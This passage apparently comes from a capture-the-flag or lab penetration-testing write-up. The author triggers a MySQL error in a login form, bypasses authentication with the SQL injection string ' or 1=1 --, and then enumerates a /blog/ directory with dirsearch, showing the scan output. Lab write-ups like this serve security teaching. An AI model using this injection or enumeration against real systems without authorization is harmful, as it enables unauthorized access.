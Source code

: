 As this was a dead end, I continued enumerating the `Login` link. I usually enter `'` into the input fields to check for SQL errors, and fortunately, this gave me this error:
```
An error occurred in script '/var/www/login.php' on line 47: Query: SELECT * FROM users WHERE email=''' AND pass='bb589d0621e5472f470fa3425a234c74b1e202e8' AND active IS NULL
MySQL Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'bb589d0621e5472f470fa3425a234c74b1e202e8' AND active IS NULL' at line 1
Date/Time: 1-23-2021 04:38:33 
```

This helped me a lot, as I was able to craft my own SQL injection. Since we know the query is `SELECT * FROM users WHERE email=''' AND pass='bb589d0621e5472f470fa3425a234c74b1e202e8' AND active IS NULL`, we can use the input `' or 1=1 -- .` in both fields to get logged in as `admin@isints.com`. However, once logged in, we still have that static page. It seems like this is just a dead end as well, even though we are logged in as admin.


Another thing that was interesting, which was disclosed by the dirsearch scan was the `/blog/` directory. I also did a dirsearch on this directory which gave me the output of:

```
[13:59:06] 403 -  299B  - /blog/.ht_wsr.txt
[13:59:06] 403 -  302B  - /blog/.htaccess.orig
[13:59:06] 403 -  302B  - /blog/.htaccess.save
[13:59:06] 403 -  304B  - /blog/.htaccess.sample
[13:59:06] 403 -  302B  - /blog/.htaccess.bak1
[13:59:06] 403 -  300B  - /blog/.htaccessOLD
[13:59:06] 403 -  301B  - /blog/.htaccessOLD2
[13:59:06] 403 -  300B  - /blog/.htaccess_sc
[13:59:06] 403 -  292B  - /blog/.htm
[13:59:06] 403 -  293B  - /blog/.html
[13:59:06] 403 -  303B  - /blog/.htaccess_extra
[13:59:06] 403 -  302B  - /blog/.htaccess_orig
[13:59:06] 403 -  300B  - /blog/.htaccessBAK
[13:59:06] 403 -  298B  - /blog/.htpasswds
[13:59:06] 403 -  302B  - /blog/.htpasswd_test
[13:59:06] 403 -  299B  - /blog/.httr-oauth
[13:59:15] 302 -    0B  - /blog/add  ->  http://192.168.221.224/blog/index.php
[13:59:15] 302 -    0B  - /blog/add.php  ->  http://192.168.221.224/blog/index.php
[13:59:15] 302 -    0B  - /blog/add_link.php  ->  http://192.168.221.224/blog/index.php
[13:59:23] 200 -    1KB - /blog/atom
[13:59:25] 302 -    0B  - /blog/categories  ->  http://192.168.221.224/blog/index.php
[13:59:25] 302 -    0B  - /blog/comments  ->  http://192.168.221.224/blog/index.php
[13:59:25] 301 -  324B  - /blog/config  ->  http://192.168.221.224/blog/config/
[13:59:25] 200 -    1KB - /blog/config/
[13:59:26] 301 -  325B  - /blog/content  ->  http://192.168.221.224/blog/content/
[13:59:26] 200 -  916B  - /blog/content/
[13:59:26] 200 -    6KB - /blog/contact
[13:59:26] 200 -    6KB - /blog/contact.php
[13:59:27] 302 -    0B  - /blog/delete.php  ->  http://192.168.221.224/blog/index.php
[13:59:27] 301 -  322B  - /blog/docs  ->  http://192.168.221.224/blog/docs/
[13:59:27] 200 -    2KB - /blog/docs/
[13:59:29] 301 -  323B  - /blog/flash  ->  http://192.168.221.224/blog/flash/
[13:59:29] 200 -    1KB - /blog/flash/
[13:59:31] 301 -  324B  - /blog/images  ->  http://192.168.221.224/blog/images/
[13:59:31] 200 -  727B  - /blog/images/
[13:59:31] 200 -    8KB - /blog/index.php
[13:59:31] 200 -    8KB - /blog/index
[13:59:31] 200 -    8KB - /blog/index.php/login/
[13:59:31] 302 -    0B  - /blog/info.php  ->  http://192.168.221.224/blog/index.php
[13:59:31] 302 -    0B  - /blog/info  ->  http://192.168.221.224/blog/index.php
[13:59:32] 301 -  327B  - /blog/languages  ->  http://192.168.221.224/blog/languages/
[13:59:32] 302 -    0B  - /blog/languages.php  ->  http://192.168.221.224/blog/index.php
[13:59:32] 200 -    6KB - /blog/login/login
[13:59:32] 200 -    6KB - /blog/login/cpanel.aspx
```